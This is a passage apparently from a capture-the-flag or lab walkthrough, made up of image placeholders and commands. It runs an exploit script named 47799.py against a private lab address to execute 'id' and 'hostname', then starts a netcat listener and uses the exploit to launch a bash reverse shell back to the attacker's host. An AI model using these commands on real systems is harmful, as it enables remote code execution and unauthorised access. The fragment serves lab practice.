 **Commands:**
- `python3 47799.py 192.168.195.240 id`
- `python3 47799.py 192.168.195.240 hostname`
 
 ![](Clue/16.png)

**Commands:**
- `nc -lvnp 80`
- `python3 47799.py 192.168.195.240 "/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.246/80 0>&1'"`

![](Clue/17.png)
